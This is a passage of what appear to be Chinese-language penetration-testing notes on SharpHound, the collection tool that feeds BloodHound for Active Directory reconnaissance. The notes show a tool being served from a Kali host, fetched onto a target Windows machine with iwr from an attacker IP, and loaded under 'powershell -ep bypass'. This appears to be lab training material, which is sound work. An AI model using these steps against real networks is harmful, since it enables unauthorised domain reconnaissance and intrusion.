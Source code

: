 SharpHound 主要收集的內容包括：
- 使用者與群組資訊（User & Group）
- 本機管理員權限（Local Admin）
- GPO 本機群組（Group Policy Objects）
- 遠端桌面權限（RDP）
- 服務主體名稱（SPN）
- 系統 ACL（權限控制清單）
- 遠端 PowerShell 連線（PSRemote）
- 信任關係（Trusts）
- 已登入的使用者（LoggedOn Users）

收集到的資料後會儲存為 JSON 格式，並打包成 .zip 檔

#### 1. 下載並傳送 SharpHound
Kali Linux 下載最新版本的 SharpHound (參考用)
```
┌──(chw㉿CHW)-[~]
└─$ wget https://github.com/SpecterOps/SharpHound/releases/download/v2.6.0/SharpHound-v2.6.0.zip
┌──(chw㉿CHW)-[~]
└─$ unzip SharpHound-v2.6.0.zip -d SharpHound
```
>[!Caution]
>這裡建議直接使用 BloodHound 內建的 SharpHound，若在 github 上下載最新版，可能會導致 BloodHound 與 SharpHound 版本不相容，在 BloodHound 上傳 JSON 時會失敗。\
>`sudo apt install bloodhound `\
>`cd /usr/lib/bloodhound/resources/app/Collectors`

```
┌──(chw㉿CHW)-[/usr/…/bloodhound/resources/app/Collectors]
└─$ ls
AzureHound.md  DebugBuilds  SharpHound.exe  SharpHound.ps1
                                                    
┌──(chw㉿CHW)-[/usr/…/bloodhound/resources/app/Collectors]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
在 Kali Linux 下載最新版本的 SharpHound，並將 `Sharphound.ps1` 傳送到目標機器
```
PS C:\Users\stephanie\Downloads>  iwr -uri http://192.168.45.159/SharpHound.ps1 -Outfile SharpHound.ps1
```
#### 2. 啟用 SharpHound
```
PS C:\Users\stephanie\Downloads> powershell -ep bypass
PS C:\Users\stephanie\Downloads> . .\SharpHound.ps1
PS C:\Users\stephanie\Downloads> Get-Help Invoke-BloodHound

NAME
    Invoke-BloodHound

SYNOPSIS
    Runs the BloodHound C# Ingestor using reflection. The assembly is stored in this file.


SYNTAX
    Invoke-BloodHound [-CollectionMethods <String[]>] [-Domain <String>] [-SearchForest] [-Stealth] [-LdapFilter
    <String>] [-DistinguishedName <String>] [-ComputerFile <String>] [-OutputDirectory <String>] [-OutputPrefix
    <String>] [-CacheName <String>] [-MemCache] [-RebuildCache] [-RandomFilenames] [-ZipFilename <String>] [-NoZip]
    [-ZipPassword <String>] [-TrackComputerCalls] [-PrettyPrint] [-LdapUsername <String>] [-LdapPassword <String>]
    [-DomainController <String>] [-LdapPort <Int32>] [-SecureLdap] [-DisableCertVerification] [-DisableSigning]
```